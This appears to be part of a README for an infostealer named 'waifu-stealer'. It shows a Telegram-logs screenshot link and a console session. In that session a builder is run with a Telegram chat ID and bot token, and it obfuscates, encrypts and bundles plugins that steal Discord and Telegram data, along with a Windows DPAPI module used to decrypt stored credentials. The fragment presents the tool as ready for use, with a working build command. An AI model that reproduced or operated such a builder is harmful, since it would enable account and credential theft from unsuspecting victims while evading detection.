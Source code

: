 ![Telegram logs screenshot](./screenshot.webp)

```
PS C:\Users\x\waifu-stealer> node builder.js --chatId=12345678 --token=12345678:45545duuyESn3GFZfeefezfzfrehgte515tcr3EsaK65D3I --debug --no-random-delays

Replaced dynamic imports with explicit static imports
Copied entrypoint and plugins to C:\Users\x\waifu-stealer\obfuscated
Obfuscated entrypoint to C:\Users\x\waifu-stealer\obfuscated\index.js
Obfuscated plugin [discord-stealer-plugin] to C:\Users\x\waifu-stealer\obfuscated\plugins\discord-stealer-plugin\lib.js
Obfuscated plugin [telegram-stealer-plugin] to C:\Users\x\waifu-stealer\obfuscated\plugins\telegram-stealer-plugin\lib.js
Bundled entrypoint and plugins together
Encrypted bundle to C:\Users\x\waifu-stealer\obfuscated\index.js
Obfuscated the decryptor to C:\Users\x\waifu-stealer\obfuscated\index.js
Copying native modules:
  C:\Users\x\waifu-stealer\node_modules\win-dpapi\build\Release\node-dpapi.node
Done! ✌️

```